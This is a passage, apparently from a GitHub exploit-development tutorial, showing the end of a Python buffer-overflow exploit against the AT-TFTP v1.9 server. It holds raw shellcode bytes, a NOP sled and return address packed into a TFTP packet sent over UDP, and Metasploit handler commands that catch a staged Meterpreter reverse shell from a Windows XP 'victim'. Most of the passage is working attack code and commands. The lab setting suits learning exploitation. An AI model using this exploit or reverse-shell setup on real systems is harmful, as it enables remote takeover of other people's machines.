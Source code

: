 ```
buf += "\x88\x96\xe9\x43\x04\xc1\x54\x8c\x75\xf2\x70\x35\x33"
buf += "\xa5\x13\x45\x95\x21\x83\x79\xb2\x4f\x51\x1c\xab\x4e"
buf += "\xee\x86\x78\xd8\xf3\x2d\x6f\x89\xa4\xd7\x36\x7a\x4f"
buf += "\xe7\x9f\xd5\xfb\x1b\x70\x85\x54\x77\x16\x90\x9a\x4f"
buf += "\x29\x04"
 
exploit = "\x00\x02" + nop + buf + ret + "\x83\xc4\x28\xc3\x00netascii\x00" 	# Our exploit
 
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)	# Declare a UDP socket
client.sendto(exploit, (host, port))				# Send the exploit over UDP to the nominated addresses
```
**Running the Exploit**

Let’s test this against our Windows XP victim. Install AT-TFTP v1.9 from the link in the requirements. Ensure you unblock any firewall prompts to allow access. Because this is a staged payload, we need to set up Metasploit to catch the incoming shell. It wil then send the second much larger buffer (769536 bytes) that we could never have fit into our exploit itself. Run the commands sequentially
>WindowsXp
![](https://raw.githubusercontent.com/shubham381/Standalone/master/Xp.png)

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_nonx_tcp
set LHOST <Your IP Address>
set LPORT 443
exploit
```